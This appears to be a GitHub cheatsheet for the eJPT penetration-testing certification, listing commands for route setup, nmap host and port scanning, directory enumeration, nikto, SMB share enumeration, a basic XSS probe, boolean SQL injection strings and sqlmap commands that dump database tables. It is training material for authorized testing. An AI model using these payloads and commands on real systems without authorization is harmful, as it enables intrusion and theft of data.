 # **eJPT Cheatsheet**

## **Adding route to the network**
```console
root@kali~$ip a | grep tap0 | awk '/inet/ {print $2}'
root@kali~$ ip route add <ip/subnet> via <current ip gateway>
```
## **Checking for for alive host** 
```console
root@kali~$nmap -sn <ip/subnet> | grep "report for" | cut -d " " -f 5 > ip.txt
```
## **Scan all IP address**
```console
root@kali~$ ports=$(nmap -p- --min-rate=1000 -T4 $IP | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
root@kali~$nmap -sV -sC -p$ports <ip> -oG <name of file>
```

## **Vulnerability scanning using nmap**
```console
Its help me a lot to validate some vulnerablities.

root@kali~$ nmap --script "type of scanner" <IP>
```

## **Directory Enumeration**

```console
root@kali~$gobuster dir -u http://<IP> -w <wordlist>
```
## **Web vulnerability scanning**
```console
root@kali~$nikto -h <IP>
```
## **Cross Site Scripting**
```console
- Look for any input forms.
- use <script>alert(1)</script>
```
## **SQL Injection**
```console
- Look for any input forms.
- put "'" after a string, SQL error message prompt. 

Boolean Injection:

AND 1=1; -- -
OR 'a'='a'; -- -

Tip: If your doing manual SQLi validation, you can automate it using burp suite.

Once the target is validate with SQLi, used sqlmap to automate things up.

root@kali~$sqlmap -u <url> 
root@kali~$sqlmap -u <url> -p <parameter>
root@kali~$sqlmap -u <url> --tables
root@kali~$sqlmap -u <url> -D <database name> -T <table name> --dump
```
## **Windows Shares Enumeration**
```console
enumerate shared directory.

root@kali~$smbclient -L //ip 
root@kali~$enum4linux -a ip_address
```
## **Windows folder enumeration**
```console
C:\Users\NT-AUTHORITY> dir /s /b 
```
